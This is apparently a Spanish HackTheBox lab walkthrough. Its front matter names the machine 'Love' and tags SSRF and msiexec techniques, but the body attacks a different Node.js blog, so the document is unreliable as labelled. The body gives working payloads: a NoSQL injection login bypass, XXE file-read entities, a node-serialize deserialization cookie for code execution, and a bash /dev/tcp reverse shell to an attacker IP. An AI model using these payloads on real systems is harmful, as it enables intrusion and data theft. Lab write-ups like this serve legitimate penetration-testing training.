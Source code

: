 ```yaml
---
title: Love
published: 2025-02-27
image: "./logo.png"
tags: [Easy, SSRF, msiexec/msi file, eJPT, eWPT, OSCP]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

> Server Side Request Forgery (SSRF)
> Exploiting Voting System
> Abusing AlwaysInstallElevated (msiexec/msi file)

### Preparación

> eJPT
> eWPT
> OSCP (Escalada)

***

## Reconocimiento

Para empezar vamos a hacer un escaneo para ver que puertos tiene abiertos esta máquina y que servicios y versiones usan.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.139
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnmWg5rPPFIoIbPsAiHkC%2Fimg1.png?alt=media&#x26;token=da1eb531-cf6a-4704-90f9-797e2d85f41a" alt=""><figcaption></figcaption></figure>

### Express (5000)

Vemos que tiene 2 puertos abiertos, el 22 **SSH** y el 5000 que está corriendo un servidor web con **Express** como framework. Primero accederemos a este segundo puerto para ver el contenido de la página web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuneOlLLaOdBTlRVXVOlV%2Fimg2.png?alt=media&#x26;token=329b8946-b3f8-4043-8edd-c8d4fe713938" alt=""><figcaption></figcaption></figure>

### Login Form

Parece un blog simple, pero podemos ver un botón _Login_, vamos a ver que hay.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FeFj7nau7FgmOMrR4tJ7O%2Fimg3.png?alt=media&#x26;token=cc52086a-ff52-4724-94ce-73173dea8c4c" alt=""><figcaption></figcaption></figure>

## Explotación

### application/json Error

Si interceptamos la solicitud con **Burpsuite** y cambiamos el parámetro de _Content-Type_ de **application/x-www-form-urlencoded** a **application/json**, nos dará un error que nos permitirá ver dónde se ubica este servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7C0yV6KZnR9FZEWsjhNX%2Fimg4.png?alt=media&#x26;token=0aff2105-35b4-4562-bffb-7a09fa3d8afc" alt=""><figcaption></figcaption></figure>

### NoSQLi

Vemos que está en /opt/blog, esto puede ser útil en un futuro. Además en el panel de login si probamos un usuario aleatorio, nos da el error _Invalid username_, pero con el usuario **admin** no, por lo que ese si que sería válido. Podríamos probar una **inyección NoSQL** con estos parámetros:

```json
{  
"user": "admin",  
"password": {"$ne": null}  
}

// Además de cambiar a application/json
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0u1LQ4K79eG8YiKetHSD%2Fimg5.png?alt=media&#x26;token=ae8b61e5-ef16-4aa0-b4c2-8975c8909af9" alt=""><figcaption></figcaption></figure>

### XXE Injection + LFI

Podemos ver que hemos conseguido acceder. Si intentamos subir un archivo cualquiera devuelve lo siguiente: `Invalid XML Example: Example DescriptionExample Markdown` Por lo cual tendremos que hacer una **XXE Injection** (_XML External Entity_). Vamos a intentar un **LFI** creando un XML malicioso que injecte un comando.


```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBrkjDHZ0Lydtkh5ujIgv%2Fimg6.png?alt=media&#x26;token=40ede2bd-4926-45ad-8b3c-b9793d4485f9" alt=""><figcaption></figcaption></figure>

### server.js

Podemos ver que funciona correctamente, entonces como sabemos que el blog está en /opt/blog lo normal usando Express es que el archivo principal sea _server.js_ por lo que lo comprobaremos.


```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post>
<title>Server Code</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


Nos devuelve lo siguiente:


```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```
### Deserialization attack

Podemos ver que usa el paquete de **node-serialize** el cual si buscamos un poco econtraremos que es [vulnerable](https://medium.com/@firstprof.com/hackthebox-writeup-active-676aa4bd605f). Vemos que se usa para deserializar la cookie. Entonces si le pasamos un código serializado de JavaScript malicioso, podremos obtener lo que se llama un **IIFE** (_Immediately Invoked Function Expression_) en consecuencia ejecución arbitraria de código. Para comprobar si esto es viable, crearemos un código simple para hacernos un ping a nosotros mismos. Para ello usaremos este código:


```json
serialize{"rserializece":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.16', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%36%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Entonces esa sería nuestra Auth Cookie maliciosa, simplemente la ponemos en el navegador:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnY8LvAONyGF5TKCgog3F%2Fimg7.png?alt=media&#x26;token=e624de38-1e6a-409e-a49a-88241263c64c" alt=""><figcaption></figcaption></figure>

> _Nota: A veces tienes que volver entrar a la web y poner la cookie porque va raro, pero deberías recibir el ping._

Al ponernos a la escucha con **tcpdump** por la interfaz tun0 recibimos el pin.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FaQG1JauarzjuHznxrjBB%2Fimg8.png?alt=media&#x26;token=60295bdc-285e-42d9-baef-c3935d822bfb" alt=""><figcaption></figcaption></figure>

Por lo que ya podríamos crear una revshell.

```sh
echo -n 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' | base64
```

Quedaría algo así:

```
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx
```

Ahora lo metemos a la cookie añadiendo el decodeado y el bash para que lo ejecute:

```bash
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash
```


```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%59%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Si lo pasamos a la cookie y nos ponemos a la escucha en el puerto **4444** obtendremos la shell.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FerZZ2ZKM7KyZ8BRc61tu%2Fimg9.png?alt=media&#x26;token=bd92f8ab-eab1-4a33-9274-2dc8ab59d966" alt=""><figcaption></figcaption></figure>

Deberemos de dar permisos para poder abrir /home/admin con:

```
chmod +x /home/admin
```

Y ya podremos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FNsD8okbtIlI68zvy9j1M%2Fimg10.png?alt=media&#x26;token=d5d22649-8ead-45a7-8fb2-7e1b7a7454da" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Recordando que tenía **MongoDB** gracias al /etc/passwd podemos intentar listar los puertos abiertos internos de la máquina con:

```
ss -tln
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFYR9f8UQnPCgeKbhlE3z%2Fimg11.png?alt=media&#x26;token=233b8975-c119-4cf7-8360-bd3ec8b31cf9" alt=""><figcaption></figcaption></figure>

Efectivamente, vemos que el puerto **27017** está abierto. Si usamos mongo para listar DB y todo lo que contiene...

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdVHVb7sW5uBOD7k3bMT5%2Fimg12.png?alt=media&#x26;token=6497d7e0-d8d3-4833-a97e-f8cab1cf699e" alt=""><figcaption></figcaption></figure>

Vemos que hay una contraseña de un usuario admin, por lo que la copiamos:&#x20;

```
IppsecSaysPleaseSubscribe
```

Si hacemos un **sudo -l** nos devuelve con la contraseña:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdjZOzrl0JGBPCfZcZw55%2Fimg13.png?alt=media&#x26;token=a90e33fb-559a-464f-bbdb-7e5227a2a296" alt=""><figcaption></figcaption></figure>

Y ya simplemente hacemos sudo su y obtenemos la root flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FcLHMMIWIGn1MBy1oSNMf%2Fimg14.png?alt=media&#x26;token=3ebfb71a-9ff6-4c2c-a10c-6e8fec69a608" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/430)

---
